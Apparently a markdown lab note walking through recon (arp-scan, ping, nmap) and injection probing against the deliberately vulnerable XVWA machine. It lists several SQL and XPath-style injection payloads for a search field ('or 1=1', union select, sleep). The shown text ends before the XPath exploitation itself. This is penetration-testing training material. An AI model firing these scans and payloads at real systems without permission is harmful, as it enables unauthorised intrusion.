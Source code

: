 ```yaml
---
tags:
  - machine
  - vulnhub
  - xpath
  - arp-scan
  - nmap
---
```


![](../../Images/XVWA.png)

![](../../Images/Xtreme%20Vulnerable%20Web%20Application.png)

# Information

This machine host a lot of vulnerabilities, we only are going to exploit the **XPath Injections**

---

# Recon

## Search the machine in our network

We are going to realize an arp-scan too try to locate the victim machine

````bash
sudo arp-scan -I eth0 --localnet --ignoredups
````

![](../../Images/Pasted%20image%2020230902181854.png)

## Trying connectivity

We try if we have connectivity with them

````bash
ping -c 1 192.168.1.70
````

![](../../Images/Pasted%20image%2020230902181938.png)

Remember that we can imagine that the victim machine use a GNU/Linux SO by the TTL (The TTL by default in Linux machine is 64)

> [default device ttl](https://subinsb.com/default-device-ttl-values/)

## Port Scanning

We are going to do a port scanning to discover open TCP ports

````bash
sudo nmap -p- --open -sS --min-rate 4500 -vvv -n -Pn 192.168.1.70
````

![](../../Images/Pasted%20image%2020230902182320.png)

We are only interested in XPath Injection, we will not continue enumerating

## Open Web Browser

We can search the website:

> http://192.168.1.70/xvwa/


You have to see this

![](../../Images/Pasted%20image%2020230902182608.png)


You have to click In XPath Injection section

## Little change in the config of victim machine

Okay we are going to do add a tag for the future.

You have to go /var/www/html/xvwa/vulnerabilities/xpath and open the file **cofee.xml**

> nano cofee.xml

After the first item, below the price you can add a tag that call Secret

````xml
<Secret>This is a secret message and is not visible</Secret>
````

![](../../Images/Pasted%20image%2020230902183732.png)

Do a 

> service apache2 restart

If the output is fail, don't worry  if you do an **service apache2 status** you can see that everything is ok.


## Download coffee.xml

We are going to download this resource in our machine,

In the victim machine mount a python server

> python3 -m http.server 8084

Now in our machine we can download the file with curl

> wget 192.168.1.70:8084/coffee.xml

![](../../Images/Pasted%20image%2020230902184140.png)

Now we can begin with the exploitation of the vulnerabilty

## Intercept petition with Burpsuite

Before take the request, try the page, if you put a number they give you some information about a coffee, the number is an identifier.

![](../../Images/Pasted%20image%2020230902185242.png)

![](../../Images/Pasted%20image%2020230902185334.png)

The query to obtain the data is in home.php, we can get from the server

> wget 192.168.1.70:8084/home.php

![](../../Images/Pasted%20image%2020230902185542.png)

The result of the query will be

> /Coffees/Coffee\[@ID='1'\];

We intercept the request in the Burpsuite

And image that we don't have idea about what is running in the background, but this field is a potentially vector, we try with SQLi, NoSQLi

We can try

````bash
search=1'&submit=
search=1' or 1=1&submit=
````

Remember that in a query you have a single quoute that stay hanging

````sql
select * from coffees where id='1' or 1=1';
````

You can comment the rest to resolve:

````bash
search=1' or 1=1-- -&submit=
search=1' or 1=1#&submit=
````

Or you can avoid the comment if you add quotes like this:

````bash
search=1' or '1'='1&submit=
````

Look up. You see that we are not closing the last quote because we image that have another quote that will be closing this quote.

And boom, we can see a lot of products

![](../../Images/Pasted%20image%2020230902191121.png)

But this is not SQL, remember

In this case the problem is the same 

> /Coffees/Coffee\[@ID='1'\];


As we assume that is a SQLi we keep trying with SQLi, remember, the next typicall query is:

````bash
search=1' order by 100-- -&submit=
````

Mmm, we don't see nothing, will there be fewer columns?

````bash
search=1' order by 3-- -&submit=
````

at first glance, they look like three columns

![](../../Images/Pasted%20image%2020230902191847.png)

But we can try 4,5,6 and doesn't work

You can try an union select

````bash
search=1' union select 1,2,3-- -&submit=
````

1,2,3,4... and the output is the same, Item not found

You can try other queries like:

````bash
search=1' or sleep(5)-- -&submit=
````

````bash
search=1' and sleep(5)-- -&submit=
````

In this situation, you should think about [XPath Injection](../../OWASP%20TOP%2010%20and%20web%20vulnerabilities/XPath%20Injections/XPath%20Injection.md) 
